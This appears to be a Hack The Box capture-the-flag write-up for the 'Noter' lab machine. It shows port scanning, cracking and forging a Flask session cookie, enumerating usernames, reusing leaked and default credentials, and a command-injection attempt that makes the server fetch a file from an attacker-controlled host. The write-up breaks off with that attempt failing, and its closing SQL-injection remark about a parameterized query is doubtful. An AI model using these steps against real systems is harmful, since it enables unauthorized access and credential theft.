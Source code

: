 > Author: **[kavigihan][author-profile]**

## Discovery

### Port scanning

```shell
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c6:53:c6:2a:e9:28:90:50:4d:0c:8d:64:88:e0:08:4d (RSA)
|   256 5f:12:58:5f:49:7d:f3:6c:bd:9b:25:49:ba:09:cc:43 (ECDSA)
|_  256 f1:6b:00:16:f7:88:ab:00:ce:96:af:a6:7e:b5:a8:39 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Directories

```shell
/login                (Status: 200) [Size: 1963]
/register             (Status: 200) [Size: 2642]
/logout               (Status: 302) [Size: 218] [--> http://10.10.11.160:5000/login]
/dashboard            (Status: 302) [Size: 218] [--> http://10.10.11.160:5000/login]
/notes                (Status: 302) [Size: 218] [--> http://10.10.11.160:5000/login]
/VIP                  (Status: 302) [Size: 218] [--> http://10.10.11.160:5000/login]
````

### Web browsing

After registering, the web app lands on a dashboard:

<img src="images/dashboard.png" style="display:block; max-width: 50vw; margin-left: auto; margin-right: auto;">

XSS doesn't seem to work, but there's and intriguing session cookie:

```
eyJfZmxhc2hlcyI6W3siIHQiOlsic3VjY2VzcyIsIm5vdGUgVXBkYXRlZCJdfV0sImxvZ2dlZF9pbiI6dHJ1ZSwidXNlcm5hbWUiOiJhcGVoZXgifQ.YoZYNA.R84EdAvQlWtep73ABT3rrX_cIoI
```

It is a JWT token with header:

```json
{
  "_flashes": [
    {
      " t": [
        "success",
        "note Updated"
      ]
    }
  ],
  "logged_in": true,
  "username": "apehex",
  "alg": "HS256"
}
```

## Impersonating the staff

### Cracking the JWT

Since the server is Werkzeug and the port 5000, the application is most likely
made with Flask.

Also the signature is valid with the `HS256` algorithm.

Hacktricks points toward [Flask-Unsign][hacktricks]:

```shell
flask-unsign --unsign --no-literal-eval \
    --wordlist /usr/share/wordlists/passwords/rockyou-75.txt \
    --cookie 'eyJfZmxhc2hlcyI6W3siIHQiOlsic3VjY2VzcyIsIm5vdGUgVXBkYXRlZCJdfV0sImxvZ2dlZF9pbiI6dHJ1ZSwidXNlcm5hbWUiOiJhcGVoZXgifQ.YoZYNA.R84EdAvQlWtep73ABT3rrX_cIoI'
```

The JWT was signed with `secret123`!

### Finding a target user

To impersonate a user with the JWT, we need a valid username.

The login page responds with "Invalid credentials" when a user doesn't exist
and "Invalid login" when the username exist and the password is wrong:

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-binary $'username=test&password=pass' \
    $'http://10.10.11.160:5000/login' | grep -ai invalid
```

This distinction enables user enumeration:

```shell
ffuf -X $'POST' -u $'http://10.10.11.160:5000/login' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -d $'username=FUZZ&password=pass' \
    -w $'/usr/share/wordlists/usernames/cirt-default-usernames.txt' \
    -fr $'valid credentials' \
    -o $'discovery/10.10.11.160/usernames'
```

Only "blue" comes out.

### Crafting a new JWT

We can now create valid tokens with arbitrary content with:

```shell
flask-unsign --sign --cookie '{"logged_in":true,"username":"blue"}' --secret 'secret123'
```

Actually the CLI is escaping some characters, making the format invalid. So
I used the module directly in Python:

```python
from flask_unsign import session

KEY = 'secret123'
COOKIE = {"logged_in":True,"username":"blue"}

__jwt = session.sign(
    value=COOKIE,
    secret=KEY,
    legacy=False)
```

The private notes of user "blue" have sensitive information:

<img src="images/leak.png" style="display:block; max-width: 32vw; margin-left: auto; margin-right: auto;">

## Pivoting

So far, we've gathered the following credentials:

```
blue blue@Noter!
ftp_admin
```

Let's try these on the FRP server:

```shell
ls -lah
# drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
# -rw-r--r--    1 1002     1002        12569 Dec 24 20:59 policy.pdf
```

`policy.pdf` explains the password policy, in particular default passwords:

```
4. Default user-password generated by the application is in the format of "username@site_name!" (This applies to all your applications)
```

For "ftp_admin" it would be `ftp_admin@Noter!`... it works on the FTP server:

```shell
ls -lah
# -rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
# -rw-r--r--    1 1003     1003        26298 Dec 01 05:52 app_backup_1638395546.zip
```

## Analysing the app

The backups are separated by a month:

```shell
date -d @1635803546
# Mon Nov  1 10:52:26 PM CET 2021
date -d @1638395546
# Wed Dec  1 10:52:26 PM CET 2021
```

### Processing the changelog

To view the differences easily, let's create a new Git repository and
commit the files:

```shell
REPO=$(mktemp -d) && git init "${REPO}"
unzip -d "${REPO}/1635803546" app_backup_1635803546.zip
unzip -d "${REPO}/1638395546" app_backup_1638395546.zip
mv "${REPO}/.git/" "${REPO}/1635803546/" && cd "${REPO}/1635803546/" && git add . && git commit -m 'Older'
mv "${REPO}/1635803546/.git/" "${REPO}/1638395546/" && cd "${REPO}/1638395546/" && git add . && git commit -m 'Newer'
```

Seeing the differences is now ezclap:

```shell
git diff HEAD~ HEAD
# --- a/app.py
# +++ b/app.py
# @@ -14,11 +14,13 @@ app = Flask(__name__)
 
#  # Config MySQL
#  app.config['MYSQL_HOST'] = 'localhost'
# -app.config['MYSQL_USER'] = 'root'
# -app.config['MYSQL_PASSWORD'] = 'Nildogg36'
# +app.config['MYSQL_USER'] = 'DB_user'
# +app.config['MYSQL_PASSWORD'] = 'DB_password'
#  app.config['MYSQL_DB'] = 'app'
#  app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
 
# +attachment_dir = 'misc/attachments/'
# +
#  # init MYSQL
#  mysql = MySQL(app)
```

The known credentials are now:

```
blue blue@Noter!
ftp_admin ftp_admin@Noter!
root Nildogg36
```

Also the latest patch has a serious vulnerability in `@app.route('/export_note_remote', methods=['POST'])`:

```python
+                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
+                    subprocess.run(command, shell=True, executable="/bin/bash")
```

### Command injection

This allows a straightforward command injection in `r.text`, which is filled when
the server requests a given "url":

```python
r = pyrequest.get(url,allow_redirects=True)
```

And this is triggered by a POST to `/export_note_remote` with the relevant
parameters:

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YoaIQw.fntEnZnQsDZfY6yjJ5XWKkz0V60' \
    --data-binary $'url=http://10.10.16.2:8888/note.md' \
    $'http://10.10.11.160:5000/export_note_remote/'
``` 

Fails with:

```
The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.
```

### SQLi

There's potential for SQLi too:

```python
result = cur.execute("SELECT * FROM notes where author= %s",[session['username']])
```

[author-profile]: https://app.hackthebox.com/users/389926
[dashboard]: images/dashboard.png
[hacktricks]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask#flask-unsign
[leak]: images/leak.png
